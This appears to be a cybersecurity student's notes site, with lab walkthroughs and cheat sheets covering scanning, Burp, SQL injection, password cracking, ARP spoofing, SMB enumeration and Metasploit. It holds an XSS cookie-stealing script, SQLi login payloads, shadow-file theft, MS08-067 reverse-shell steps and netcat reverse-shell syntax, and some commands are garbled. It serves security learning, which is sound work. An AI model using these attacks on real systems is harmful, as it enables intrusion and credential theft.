



Security Notes
Notes and Old Labs
Cybersecurity student, trying to collect and improve knowledge. Covers all basic skills.
Security Notes.
Lab.
- Launch Wireshark, click interface tap0 for tunnel inferface
- launch browser, go to given http url
- enter the given username, and password
- right click traffic, click follow http or tcp stream
- username and password can clearly be seen in request header, eavesdroppers could steal it
- go to https page, repeat process
- traffic is encrypted
Security Notes.
Lab.
Tools used: nmap, iproute
- connect to vpn
- visit the two webservers at the given addresses 192.168.241.12, and 172.16.88.81
- Use the tool iproute to see the routes to webservers:
~$ iproute
11000000.10101000.11011110.110001111 & 11111111.11111111.11111111.11111111 192.168.222.0, with a netmask of 24
Security Notes.
Lab.
Tools used: Burpsuite, Browser
- Site given: 10.100.13.5
- Launch new Burpsuite session
- In new browser: Go to network configure - connection
- In manual proxy configuration:
HTTP Proxy: 127.0.0.1:8080
Check the box that says use this proxy for all protocols
Click Apply button - In Burpsuite go to Proxy - Options
- Select 127.0.0.1:8080
- Turn listener on
- Traffic should appear in Target - Sitemap tab
- Go to Spider turn on
- / - click spder this host
- site map will add new paths
- path y7gMEMZtin will appear
- Expand directory - you will see login.php
- View source and you will see message from developers with login bypass for debugging
- go to that url : y7gMEMZtin/login.php?DEBUG=policedebug
- you will now have access to admin area
Security Notes.
Lab.
Tools used: fping, nmap
- Perform ping scan with fping:
- Perform a ping scan with nmap
~$ fping -a -g [IPRANGE]
// a - show all active hosts
// g - ping sweep
~$ sudo sudo -sn [IPRANGE] // Perform a SYN can against the targets, and Identify clients and servers. // Identify version of every daemon listening on the network: ~$ sudo nmap -sV [IPRANGE] // Identify Operating Systems of hosts on the network on the network: ~$ sudo nmap -O --osscan-limit [IP range] ~$ sudo nmap -O --osscan-guess [IP range]
Security Notes.
Lab.
Tools used: Dirbuster
- Get network address with ifconfig
- Do a service scan with nmap
- There was 2 hosts with services:
10.104.11.96 - has http port 80
10.104.11.198 - has mysql - Go to 10.104.11.96 in browser
- Open dirbuster
- Enter IP, Port
- select dictionary attack with list: /ust/share/dirbuster/wordlists/directory-list-2.3-small.txt
- set file extensions: .php, .old, .bak
- attack found 2 files:
signup.php - had credentials for db
config.old - use credentials from signup.php to login into mysql on other host:
- Use: show tables, to show all tables, there is table accounts
- Use command: SELECT * FROM accounts, to reveal username and password of admin
- Use them to login to admin account in browser
~$ sudo nmap -sS 10.104.11.0-255
~$ mysql -u awdmgmt -p UChxKQk96VtM07 -h 10.104..11.198 awdmgmt-accounts
Security Notes.
Lab.
Tools used: Browser
- Web application at: 192.168.99.10
- Given account: Username: attacker Password: attacker and get.php - takes all parameters and stores them in jar.php
- First find XSS points using alert.
- search bar and feedback form are injection points
- Steal cookies with JS by creating an image:
- go to jar.txt and refresh until admin goes on site, and cookies appear
- Go to Inspect Element - Network -- Cookies and paste admin cookie
<script> var i=new Image(); i.src="http://192.168.99.11/get.php?admin="+document.cookie; </script>
Security Notes.
Lab.
Tools used: SQLMap, Browser
- Explore web application at 10.124.211.96 and find all injection points
- In the awards section the site the path is /newdetails?id=23, with a different id for each award, testing it reveals that this get request is injectible: http://10.124.211.96/newdetails?id=' or 1=1; -- -
- Use sqlmap to retrieve databases:
- Will give 2 databases: awd, information-schema
- awd - contains login information
- Dump information from database awd
- Login itself is also vulnerable to sql injection
- Type:
- You will be logged in as admin
~$ sqlmap - u [URL] --dbs ~$ sqlmap -u http://10.124.211.96/newdetails?id=26
~$ sqlmap -u http://10.124.211.96/newdetails?id=26 -D awd --dump
Username: admin Password: ' or 1=1; -- -
Security Notes.
Lab.
Tools used: hydra, ssh, scp, unshadow, john the ripper
- Get network address with ifconfig
- Scan for live hosts:
- Perform a service scan:
- Use hydra to perform dictionary attack to get login credentials: hydra -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/LeakedDatabases/rockyou-10.txt ssh://192.168.99.22
- Will find a few credentials, use the root one:
Username: root Password: 123abc
- Login to ssh:
- Will then prompt for a password. Enter root password: 123abc
- Open a new window use scp to get user file and password file from machine:
- Use unshadow to combine the 2 files:
- Crack the file with john the ripper, try to get as many credentials as possible:
~$ sudo nmap -sn 192.168.99.0-255
~$ sudo nmap -sS 192.168.99.0-255
192.168.99.22, running telnet and SSH
~$ sudo ssh root@192.168.99.22
~$ scp root@192.168.99.22:/etc/passwd . ~$ scp root@192.168.99.22:/etc/shadow .
~$ unshadow passwd shadow > outfile
~$ john -wordlist=[FILE] -rules crackme//for FILE use /usr/share/seclists/Passswords/LeakedDatabases/rockyou-10.txt
Security Notes.
Lab.
Tools used: arpspoof, wireshark, telnet
- ifconfig for network address
- Perform a service scan with nmap to identify client and server
~$ nmap -sS [IPRANGE]
- Identify client and server:
Server: 10.100.13.37 Client: 10.100.13.36
- Enable IP forwarding:
- Run arp spoof to intercept traffic:
- launch wireshark and intercept traffic on tap0 interface
- Find packages, follow TCP stream, credentials, can be seen in header.
- Login in with the credentials in telnet:
~$ sudo echo 1 > /proc/sys/net/ipv4/ip_forward
~$ arpspoof -i [interface] -t [target(server)] -r [host(client)] ~$ arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36
~$ telnet -l [username] [ipaddr of server to connect to]
Security Notes.
Lab.
Tools used: enum4linux, samrdump, smbclient, nmap
- Use ifconfig to get network address: 192.168.99.0
- Use nmap with is os scan to find windows OS
- Use enum4linux to check for Null Session:
- Shows File Server System is active and <20> appears on the list
- Use enum4linux with -a (all) to gather information:
- Shows all users, directories, ...
- Access the remote shares and browse the remote machine:
- Get Worksharing and see what files are there:
- You will then be given a shell, use the ls command to see all files:
- You will see file Congratulations.txt, save the file to your machine:
- Exit the terminal:
~$ enum4linux -n 192.168.99.162
~$ enum4linux -a 192.168.99.162
~$ smbclient -L WORKGROUP -I 192.168.99.162 -N -U ""
~$ smbclient \\\\192.168.99.162\\Worksharing -N
smb:\> ls
smb:\> get Congratulations.txt ./congrats.txt
smb:\> exit
Security Notes.
Lab.
Tools used: nmap, meterpreter, metaspoilt
- ifconfig - get network address 192.168.99.0
- scan for live hosts, use service scan with versions
~$ sudo nmap -sV 192.168.99.0-255
- returns 1 host 192.168.99.12 with Windows XP and Freeftp
- Launch metaspoilt:
- Find exploit for service freeftp:
- Select exploit:
- show options:
- configure:
- show payloads:
msf> show payloads
- Set payload (Choose meterpreter shell):
msf> set payload [payload path]
- For payload: show options, configure
- Once payload is configurd, start exploitation:
- You will get a new window with meterpreter shell
- Get root access:
- Dump the credential hashes:
- Copy and paste the hashes from meterpreter into text file, save as crackme
- Crack with john the ripper:
- In meterpreter session search for file Congrats.txt
- Save the file on your machine:
~$ sudo msfconsole
msf> grep windows search freeftp
msf> use /windows/ftp/freeftpd_pass
msf> options
msf> set [parameter] [value]
msf> exploit
: getsystem
: hashdump [session number]
: find . -name Congrats.txt
: download [filepath] [destination]
Security Notes.
Note.
Usage:
//Note: --force option is system (graphics card) specific hashcat -m [HASH TYPE] -a 0 --force [FILE WITH HASHES] [DICTIONARY_LOCATION] -m - hash type, look up on wiki -a - number of accelerators -o [FILENAME] - save result to outfile //good list is: /usr/share/seclists/Passwords/LeakedDatabases/md5decryptor.uk.txt
Usage Example:
The hash file:
Running hashcat:
Out Example:
Finding the hash type:
Hashcat Website: Example HashesSecurity Notes.
Note.
Tools used: nmap, meterpreter, metaspoilt
Details
- Works with XP up to XP SP3
- Open VAS Warning: Out of Date
- Exploit Name: Microsoft Server Service Relative Path Stack Corruption
- Module Path: exploit/windows/smb/ms08_067_netapi
- Port: 445/tcp open microsoft ds Microsoft Windows XP microsoft-ds
Procedure
- sudo msfconsole
- use exploit/windows/smb/ms08_067_netapi
- set payload windows/meterpreter/reverse_tcp
- set RHOST <target address>
- set RPORT <445 or other>
- set LHOST <your_ip>
- set LPORT < your_chosen_port>
- exploit
- If sucessful will open meterpreter shell
Security Notes.
Note.
Tools used: Fierce
//use -dns to find dns servers, zone transfers, .... information about a target domain~$ fierce -dns [domain_name]//To find dns servers on internal networks:~$ fierce --dns-servers 10.0.0.1 --range 10.0.0.0/24//or for entire network:~$ fierce -range 10.0.0.0-255//You can try transfer zone, and brute force against a domain.~$ fierce -dns [DOMAIN] -dnsserver 10.0.0.1
Security Notes.
Note.
Tools used: metaspoilt
//use -dns to find dns servers, zone transfers, .... information about a target domain ~$ fierce -dns [domain_name] //To find dns servers on internal networks: ~$ fierce --dns-servers 10.0.0.1 --range 10.0.0.0/24 //or for entire network: ~$ fierce -range 10.0.0.0-255 //You can try transfer zone, and brute force against a domain. ~$ fierce -dns [DOMAIN] -dnsserver 10.0.0.1
Security Notes.
Note.
//cd (change current directory) //(To home drive)> cd \//To change the drive>cd /D [drive letter]://or to change drive and directory> cd /[drive letter] [new drive letter]:\[folder]//ls (show directory contents)> dir//To create a new folder> mkdir [new folder name]//Rename files and folders> ren [old name] [new name]//Copy files:> copy [old file location\old file name] [new file location\new file name]//Copy folders> copy /s /i [old folder location] [new folder location]//Delete files> del [FILE NAME]//Delete folders> RD [FOLDER NAME]//Run an application> cd c:\windows\System32\ > mspaint.exe
Security Notes.
Note.
Updated: May 3, 2019
hackthebox.eu
Difficulty: Maybe not that difficult, but very detailed
Lots of live VMs with a wide range of exploits
overthewire.org
Difficulty: Easy, (but gets more difficult)
Good for learning linux commands
pwnable.kr
Difficulty: Easy to Hard
Binary Exploits
hackthissite
Difficulty: Easy to Hard
Basic web exploits
https://ringzer0ctf.com/challenges
Difficulty: Havent tried before
http://ctflearn.com/
Difficulty: Havent tried before
https://asecuritysite.com/challenges
Difficulty: Havent tried before
Cryptography
https://www.root-me.org/en/Capture-The-Flag/CTF-all-the-day/
Difficulty: Havent tried before
Vulnhub
Difficulty: Easy to Hard
Vulnerable VMs, most from old ctf challenges
Vulnerable VMS
- Metasploitable
- OWASP Juice Shop, multidae (OWASP top 10 web exploits)
- Wakanda - Old CTF challenge + marvel fan
- BSides CTF : Multiple Flags and Challenges, 6.4 GB, https://www.vulnhub.com/entry/bsidestlv-2018-ctf,250/
- HackinOS - Beginner CTF, https://www.vulnhub.com/entry/hackinos-1,295/
Security Notes.
Note.
Some Examples: (Range 192.168.0.0 - 192.168.0.255)
Ping Sweep:
nmap -PS 192.168.0.0-192.168.0.255
Stealth Scan: (TCP services)
nmap -sS 192.168.0.182
Service Scan, with versions:
nmap -sV 192.168.0.182
Scan well known/top ports:
nmap --top-ports 10 192.168.0.182
Read from list:
nmap -iL /tmp/test.txt
Version and OS Detection Scanning:
nmap -v -A 192.168.0.182
Find out if host is protected by a firewall
nmap -sA 192.168.0.182
Scan a host when protected by the firewall
nmap -PN 192.168.0.182
Show all packets sent and received:
nmap --packet-trace 192.168.0.182
Show interfaces and routes:
nmap --iflist
Scanning Specific Ports:
nmap -p [port] hostname
nmap -p T:80 192.168.0.182
nmap -p U:53 192.168.0.182
Combining Options:
nmap -v -sU -sT -p U:53, 111, 137, T:21-25, 80 192.168.0.182
Fast Scanning:
nmap -T5 192.168.0.0/24
How to detect remote OS:
nmap -v -O --osscan-guess 192.168.0.182
Nmap TCP ACK(PA) and TCP SYN (PS) ping
(Firewall blocking ICMP pings)
nmap -PS 192.168.0.182
nmap -PA 192.168.0.182
Scan using IP Protocol ping
nmap -PO 192.168.0.182
Scan using UDP Ping:
nmap -PU 192.168.0.182
Scan for UDP Services:
nmap -sU 192.168.0.182
Scan firewall for security weaknesses using: -sF, -sN, and -sX
Scan for packet fragments: -f
Cloak scan with decoys:
nmap -n -Ddecoy-ip1,decoy-ip2,your-own-ip,decoy-ip3,decoy-ip4 remote-host-ip
nmap -n -D192.168.1.5,10.5.1.2,172.1.2.4,3.4.2.1 192.168.1.5
Scan for MAC Spoofing:
Spoof your MAC address
nmap --spoof-mac MAC-ADDRESS-HERE 192.168.1.1
Add other options
nmap -v -sT -PN --spoof-mac MAC-ADDRESS-HERE 192.168.1.1
Use a random MAC address
The number 0, means nmap chooses a completely random MAC address
nmap -v -sT -PN --spoof-mac 0 192.168.1.1
Source: https://www.cyberciti.biz/security/nmap-command-examples-tutorials/
Security Notes.
Note.
ifconfig
ifconfig with no arguments displays the status of currently active interfaces
Use inet address and ip to determine range of addresses to scan
For Example:
inet: 192.168.0.182, netmask: 255.255.255.0
Gives the range: 192.168.0.0-192.168.0.255
Tools for scanning networks and devices:
ping
Single Device:
ping 192.168.0.182
The Entire Network: (Range 192.168.0.0 - 192.168.0.255)
for i in {0..255}; do ping -c 192.117.247.$i | grep ‘from’; done
fping
a linux tool for ping sweeps
Syntax: (Range 192.168.0.0 - 192.168.0.255)
fping -a -g 192.168.0.0 192.168.0.255
Or using the netmask:
fping -a -g 192.168.0.0/24
Parameters:
-a - force tool to show only live hosts
-g - specifies ping sweep
netdiscover
simple ARP Scanner to scan for live hosts in a network
Usage: For finding a device without knowing the IP (ie. a VM).
Syntax: (Range 192.168.0.0 - 192.168.0.255)
netdiscover -r 192.168.0.0/24
More: https://kalilinuxtutorials.com/netdiscover-scan-live-hosts-network/
Masscan
fast, good for discovering open ports
Syntax: Device: 192.168.0.182
masscan -p1-65535, U:1-65535 192.168.0.182 --rate=500 -e eth0
More: https://kalilinuxtutorials.com/masscan/
Security Notes.
Note.
John the Ripper:
Usage: crack file with username and password hashes
Syntax:
sudo john -wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt -rules crackme
Install seclists: sudo apt-get install seclists
-
wordlist - the hashes to compare to
-
rules - allows changing of cases, ints to be added, etc
-
crackme is file with hashes
Hashcat:
Usage: crack file with username and password hashes
Syntax: You must know the type of hash. Find at https://hashcat.net/wiki/doku.php?id=example_hashes
Hashcat -m [HASH TYPE] -a 0 --force [FILE WITH HASHES] [DICTIONARY LOCATION]
-m - hash type, look up on wiki
- a - number of accelerators
-o [FILENAME] - save results to outfile
//Note force is graphics card specific
Hydra:
Usage: For services like ssh, ftp, ... when you know username but not password
Syntax:
hydra -l [USERNAME or LIST OF USERS] -p /path/to/dict [SERVICE]://[IP ADDRESS]
ie.
hydra -l root -p /usr/seclists/Leaked-Databases/Passwords/rockyou-10.txt ssh://192.168.0.10
-l - user or list of users
- p - password list
[SERVICE] - target service
[IP ADDRESS] - target ip address
Security Notes.
Note.
ssh
Usage: Connect to ssh server
Syntax:
ssh -v -p [PORT NUMBER] -C [USER]@[SERVER IP or DOMAIN NAME]
- v - verbose (optional)
- p - specify port number if not default port
- C - compression, for speed
ie.
ssh -p 22 root@192.168.0.182
scp
Usage: File upload or download tool
Syntax:
scp [USER]@[IP ADDRESS]:[FILE LOCATION] [DESTINATION LOCATION]
ie.
scp root@192.168.99.22:/etc/passwd .passwd_file
netcat: nc and ncat
Usage: Create sockets and send requests
Syntax: Create listening socket
nc -l [PORT]
Connect to listening socket:
nc [IP ADDRESS] [PORT]
Usage: Transferring files:
Syntax: Create socket:
cat [FILENAME] | nc -l [PORT]
Connect to listening socket:
nc [IP ADDRESS] [PORT] > [FILENAME]
Usage: Transferring files, with progress indicator:
Syntax: Create socket:
cat [FILENAME] | pv -b | nc -l [PORT]
Connect to listening socket:
nc [IP ADDRESS] [PORT] | pv -b > [FILENAME]
Usage: Send GET requests:
Syntax: Create socket:
nc [IP ADDRESS] [PORT]
GET /[FILE NAME] HTTP/1.1
Usage: File transfer with netcat
Send file from Windows VM to kali
Syntax: Create socket:
nc [IP ADDRESS] [PORT] < [FILENAME]
Retrieve the file:
nc -lvp [PORT] > [file]
Remote Shell (bind shell) :
-
Binding a shell to a local port on one machine, and another machine connects to that port to remotely use the shell.
Reverse Shell:
-
You tell the shell to connect back to your machine which is listening for connection ready for exploitation.
Usage: Remote Shell
Syntax:
Windows:
nc -lvp [PORT] -e cmd.exe
Kali:
nc [IP ADDRESS] [PORT]
Usage: Reverse Shell
Syntax:
Windows:
nc [IP ADDRESS] [PORT] -e cmd.exe
Kali:
ncat -lvp [PORT]
Usage: Sending POST requests
Syntax:
head = “POST /[FILENAME] HTTP/1.1\r\nHost: … \r\n Authorization: …”; echo $head | nc [SITE] [PORT]
Usage: Download file from server using HTTP, HTTPS, FTP
Syntax:
wget [URL]
ie.
wget //10.10.10.153/images/5.png
curl
Usage: “Connect” to url
Syntax:
curl [URL]
curl [URL] > [OUTFILE]
ie.
curl somesite.com
curl somesite.com > somesiteindex.html
Usage: Show request and response header
Syntax:
curl -v <URL>
Usage: Test URL with injecting header
Syntax:
curl --header ‘Content-Type: application/json’ [URL]
base64
Usage: Encode text in base64
Syntax:
base64 [FILENAME]
echo “sometext” | base64
Usage: Decode from base64
Syntax:
base64 -d [FILENAME]
echo “sometext” | base64 -d
Connecting to SQL servers
Usage: Connect to remote mysql server
Syntax:
mysql -u USERNAME -p’PASSWORD’ -h REMOTE_SERVER_IP -D DB_NAME
find
Usage: Find by name
Syntax:
find . -name FILENAME
Usage: Find by file type
Syntax:
find . -name *.[FILETYPE]
ie.
find /home -name *.jpg
Combine file type and file name:
find . -name [FILENAME] -type f (f for file, d for dir)
Usage: Find by file type
Syntax:
Search multiple file types:
find . -type f \( -name “*.[FILETYPE]” -o -name “*.[FILETYPE]” \)
Usage: Find by modification time by user
Syntax:
find . -user USERNAME -mtime 7 -iname FILETYPE
ie.
find /home -user root -mtime 7 -iname “.db”
Usage: Search by permissions
Syntax:
find -perm [PERMISSION]
ie:
find . -name “root.exe” -perm 777